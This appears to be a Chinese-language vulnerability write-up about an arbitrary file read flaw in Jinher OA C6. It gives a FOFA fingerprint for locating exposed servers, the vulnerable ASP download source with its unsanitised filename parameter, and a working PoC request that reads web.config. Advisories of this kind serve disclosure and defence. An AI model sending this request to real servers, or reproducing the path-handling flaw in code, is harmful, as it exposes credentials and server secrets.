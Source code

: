 # 金和OA C6 download.jsp 任意文件读取漏洞

## 漏洞描述

金和OA C6 download.jsp文件存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的敏感信息

## 漏洞影响

> [!NOTE]
>
> 金和OA

## FOFA

> [!NOTE]
>
> app="Jinher-OA"

## 漏洞复现

登录页面如下

![image-20210609083645344](http://wikioss.peiqi.tech/vuln/image-20210609083645344.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

漏洞文件为 download.asp

```asp

<%       
	Response.Buffer     =     true       
	Response.Clear       
	      
	dim     url       
	Dim     fso,fl,flsize       
	dim     Dname       
	Dim     objStream,ContentType,flName,isre,url1       
	'*********************************************调用时传入的下载文件名       
	Dname=trim(request("filename"))       
	'******************************************************************       
	If     Dname<>""     Then       
	'******************************下载文件存放的服务端目录       
							url=server.MapPath(Dname)       
							'url=server.MapPath("./")&"\Jhsoft.Web.module\testbill\dj"&Dname     '这边做了一下改动By   Fanshui   
	'***************************************************       
	End     If       
	'Response.write   url   
	'response.end   

	Set     fso=Server.CreateObject("Scripting.FileSystemObject")       
	Set     fl=fso.getfile(url)       
	flsize=fl.size       
	flName=fl.name       
	Set     fl=Nothing       
	Set     fso=Nothing     
	'Response.write flName
	'Response.write flsize
%>    


<%       
    Set		objStream     =     Server.CreateObject("ADODB.Stream")
	'objStream.Mode 　  = 　  3 　
	objStream.Type     =     1
    objStream.Open        
    objStream.LoadFromFile     url       


    Select     Case     lcase(Right(flName,     4))       
        Case     ".asf"       
                                ContentType     =     "video/x-ms-asf"       
        Case     ".avi"       
                                ContentType     =     "video/avi"       
        Case     ".doc"       
                                ContentType     =     "application/msword"       
        Case     ".zip"       
                                ContentType     =     "application/zip"       
        Case     ".xls"       
                                ContentType     =     "application/vnd.ms-excel"       
        Case     ".gif"       
                                ContentType     =     "image/gif"       
        Case     ".jpg",     "jpeg"       
                                ContentType     =     "image/jpeg"       
        Case     ".wav"       
                                ContentType     =     "audio/wav"       
        Case     ".mp3"       
                                ContentType     =     "audio/mpeg3"       
        Case     ".mpg",     "mpeg"       
                                ContentType     =     "video/mpeg"       
        Case     ".rtf"       
                                ContentType     =     "application/rtf"       
        Case     ".htm",     "html"       
                                ContentType     =     "text/html"       
        Case     ".txt"       
                                ContentType     =     "text/plain"       
        Case     Else       
                                ContentType     =     "application/octet-stream"       
    End     Select       



	Response.AddHeader     "Content-Disposition",     "attachment;     filename="     &     flName       
    Response.AddHeader     "Content-Length",     flsize       

    Response.Charset     =     "UTF-8"       
    Response.ContentType     =     ContentType   

	Response.BinaryWrite     objStream.Read       
    Response.Flush       
    response.Clear()       
    objStream.Close       
    Set     objStream     =     Nothing       

%>
```

请求的POC为

```
/C6/Jhsoft.Web.module/testbill/dj/download.asp?filename=/c6/web.config
```

![image-20210609085943874](http://wikioss.peiqi.tech/vuln/image-20210609085943874.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

读取 web.config

```
/C6/Jhsoft.Web.module/testbill/dj/download.asp?filename=/c6/web.config
```

![image-20210609091013697](http://wikioss.peiqi.tech/vuln/image-20210609091013697.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)